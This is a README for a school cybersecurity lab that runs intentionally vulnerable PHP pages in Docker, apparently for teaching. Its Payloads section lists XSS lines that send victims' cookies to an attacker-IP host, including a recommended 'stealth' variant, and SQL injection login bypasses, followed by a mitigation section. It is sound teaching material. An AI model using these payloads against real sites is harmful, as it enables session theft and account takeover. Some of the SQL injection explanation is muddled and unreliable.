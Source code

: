 # G. Galilei Internship Cyber security course
This repository collects tools and methodologies used during the system security internship with the students of the G. Galilei Institute.
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
		
### For XSS vulnerability
- Visit the vulnerable page at: http://localhost:9000/xss.php

### SQLi vulnerability
- Visit the vulnerable page at: http://localhost:9000/sqlI.php 

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored
- SQL injection

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>
    
### SqlI
To gain access to the first account saved in the database

    a' OR 1=1 --
To gain access to an account by knowing the username

    [username]' OR 1=1 --

		

## Vulnerabilities Scenario and actions
### Steps for Vulnerability Analysis

#### 1. Information Gathering:
- **Application Observation**: Analyze the web application to identify points where user input is used to create SQL queries. These may include login forms, search forms, or any other form that interacts with the database.
- **Identifying Vulnerable Parameters**: Identify which parameters (e.g., query string, form fields, cookies) could be vulnerable to SQLi.

#### 2. Injection Testing:
- **Manipulated Input**: Inject various test payloads, such as `<script>alert(0);</script>`. A vulnerable application will run the script and display the alert.
- Once testing confirms vulnerability, the attacker may proceed with one of the following attack types:

---

### SQL Injection

**SQL Injection** occurs when attackers exploit flaws in poorly written PHP code to inject malicious code into a web application, leading to the execution of arbitrary commands on the server.

---

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** occurs when the server or application does not properly sanitize user input, allowing attackers to inject malicious scripts into web pages that will be executed in the browsers of users visiting the page.

#### There are 2 types of Cross-Site Scripting (XSS):
1. **Stored XSS**  
   Stored XSS is a type of Cross-Site Scripting where the malicious script injected by the attacker is stored on the server (e.g., in a database, file, or log).

2. **Reflected XSS**  
   Reflected XSS is a type of Cross-Site Scripting where the malicious code is not stored on the server but is instead reflected immediately in the server's response.

---

### Key Difference in Cookie Theft Methods Between Stored and Reflected XSS:

- **Stored XSS**: In this case, the attacker can redirect the user’s cookie to their own web server, which is always listening. This allows the attacker to steal the cookie every time someone visits the page.
  
- **Reflected XSS**: Here, the attacker needs the user to open a malicious link that leads to a website with a command that allows the attacker to redirect the user’s cookie toward them. This can only be done with some prior social engineering research to trick the user into clicking the link.

---

### Mitigation:

Mitigation refers to the methods we can use to make our websites secure and protected against these types of attacks.

- **Input Sanitization**: Filter user input to remove any malicious HTML or JavaScript tags.
  
- **Output Escaping**: Escape user input before displaying it on the HTML page, meaning converting special characters into sequences that are not interpreted as code by the browser.

- **Setting a Content Security Policy (CSP)**: Use a CSP to limit executable resources in the browser (such as scripts and styles) and prevent the execution of unauthorized scripts.


